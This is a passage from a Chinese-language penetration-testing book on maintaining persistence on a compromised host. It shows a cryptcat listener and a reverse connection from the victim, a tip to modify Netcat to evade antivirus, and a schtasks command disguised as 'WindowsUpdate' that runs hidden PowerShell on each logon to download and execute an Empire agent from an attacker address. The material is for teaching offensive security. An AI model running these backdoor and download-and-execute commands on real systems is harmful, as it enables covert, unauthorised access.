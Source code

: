     图 13.3：通过 Netcat 成功连接到持久后门

    不幸的是，使用 Netcat 存在一些局限性。传输的数据没有认证或加密，而且几乎所有的防病毒软件都会检测到它。

1.  可以使用`cryptcat`解决缺乏加密的问题，它是 Netcat 的一个变体，使用 Twofish 加密来保护在受害主机与攻击者之间传输的数据。Twofish 加密是由 Bruce Schneider 开发的高级对称块密码，它为加密数据提供了合理强大的保护。

    要使用`cryptcat`，请确保有一个监听器已准备好，并且已使用以下命令配置了一个强密码：

    ```
    kali@kali:~# cryptcat -k password -l -p 444 
    ```

1.  接下来，根据目标操作系统上传`cryptcat`（如果是 Windows，则上传可在[`github.com/pprugger/Cryptcat-1.3.0-Win-10-Release`](https://github.com/pprugger/Cryptcat-1.3.0-Win-10-Release)获取的 Windows 二进制文件）到被攻陷系统，并使用以下命令配置它连接到监听器的 IP 地址：

    ```
    cryptcat -k password <listener IP address> 444 
    ```

不幸的是，Netcat 及其变体仍然能被大多数防病毒应用程序检测到。然而，如果目标是 Linux 系统，该工具会预先安装，渗透测试人员可以利用它们打开端口并运行后门。通过使用十六进制编辑器修改 Netcat 的源代码，可以使 Netcat 变得不可检测。

这将有助于避免触发防病毒程序的签名匹配动作，但这可能是一个漫长的试错过程。更有效的方法是利用 Empire 的持久性机制。

## 使用 schtasks 配置持久任务

**Windows 任务计划程序** (`schtasks`) 是在 Windows XP 和 2003 中作为`at.exe`的替代品引入的。然而，`at.exe`在最新版本的 Windows 中已被废弃。在本节中，我们将使用计划任务来维持对被攻陷系统的持久访问。

攻击者可以在被攻陷的系统上创建一个计划任务，从攻击者的机器运行 Empire 代理有效载荷，并提供后门访问。`schtasks`可以直接从命令提示符中安排，如*图 13.4*所示：

![](img/B17765_13_04.png)图 13.4：在目标上创建计划任务以保持持久性

以下是攻击者可以利用的典型计划任务场景，用于保持对系统的持久访问：

+   要在用户登录过程中启动 Empire PowerShell 代理，请从命令行运行以下命令：

    ```
    schtasks /create /tn WindowsUpdate /tr " C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('http://10.10.10.12:90/agent.ps1'))'" /sc onlogon /ru System 
    ```
